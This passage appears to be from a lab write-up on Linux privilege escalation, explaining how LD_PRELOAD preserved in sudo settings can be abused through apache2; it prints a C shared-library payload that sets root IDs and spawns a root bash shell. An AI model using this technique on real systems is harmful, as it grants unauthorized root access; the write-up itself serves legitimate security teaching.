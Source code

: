 # Environment variables

There are some additional entries at the beginning of the `sudo -l` output.

![2021-09-26-09-56-17.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632734925925/-F9NPESoB.png)

Both `LD_PRELOAD` and `LD_LIBRARY_PATH` are environment variables that can be set when executing the binary, to load a libraries beforehand.

What are the legitimate reasons behind this? Let me quote the good examples from [David Barr article](http://xahlee.info/UnixResource_dir/_/ldpath.html)

> * To test out new library routines against an already compiled binary (for either backward compatibility or for new feature testing).
> * To have a short term way out in case you wanted to move a set of shared libraries to another location.
> * When upgrading shared libraries, you can test out a library before replacing it.

Worth mentioning that `LD_LIBRARY_PATH` is ignored at runtime for executables that have their `setuid` or `setgid` bit set. But this won't prevent from abusing the `sudo` permissions.


[Back to top](#contents) ⤴

## Exploiting LD_PRELOAD

Any additional, user-specified, ELF shared objects (like shared libraries) specified in `LD_PRELOAD` are loaded first, [before all others](https://man7.org/linux/man-pages/man8/ld.so.8.html).

We can use that to our advantage to gain a root shell from the `apache2` that didn't have an entry in GTFOBins. To do so, we are going to compile the code that opens the `/bin/bash` to shared library with a name of a library we want to hijack. Then we are going to manipulate the `apache2` to use it during its execution. Because `LD_PRELOAD` objects are loaded before any other, we should get the root right after program startup.

```c
/*
Example of the program that opens the shell under root user.
Source: https://tryhackme.com/room/linuxprivesc
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    // clear current LD_PRELOAD value
    unsetenv("LD_PRELOAD");

    // set real, effective, and saved user or group ID
    setresuid(0,0,0);

    // run shell with SUID persistence
    // otherwise it would run under current user
    system("/bin/bash -p");
}

```
